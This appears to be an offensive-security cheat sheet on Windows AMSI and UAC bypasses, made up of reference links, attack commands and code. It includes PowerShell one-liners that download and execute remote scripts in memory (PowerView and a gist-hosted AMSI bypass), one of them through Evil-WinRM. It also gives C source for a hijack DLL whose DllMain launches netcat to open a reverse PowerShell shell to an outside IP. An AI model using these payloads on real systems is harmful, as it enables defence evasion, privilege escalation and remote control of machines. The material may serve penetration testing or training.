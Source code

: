

# AMSI Bypass

* [AMSI.fail](https://amsi.fail/)
* [github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
* [www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)
* [s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)




## Evil-WinRM + IEX

```
*Evil-WinRM* PS > menu
*Evil-WinRM* PS > Bypass-4MSI
*Evil-WinRM* PS > IEX([Net.Webclient]::new().DownloadString("http://127.0.0.1/PowerView.ps1"))
```




## Memory Patching

* [0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)

```
PS > IEX(New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/snovvcrash/5c9ee38bb9a8802a674ec3d3d33b4717/raw/5c77510505f505db8ac1453c60ee6fc34a8e6d59/Bypass-AMSI.ps1')
PS > Bypass-AMSI
```





# UAC Bypass




## SystemPropertiesAdvanced.exe



### srrstr.dll

```c
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved) {
	switch(dwReason) {
		case DLL_PROCESS_ATTACH:
			WinExec("C:\\Users\\<USERNAME>\\Documents\\nc.exe 10.10.14.16 1337 -e powershell", 0);
		case DLL_PROCESS_DETACH:
			break;
		case DLL_THREAD_ATTACH:
			break;
		case DLL_THREAD_DETACH:
			break;
	}

	return 0;
```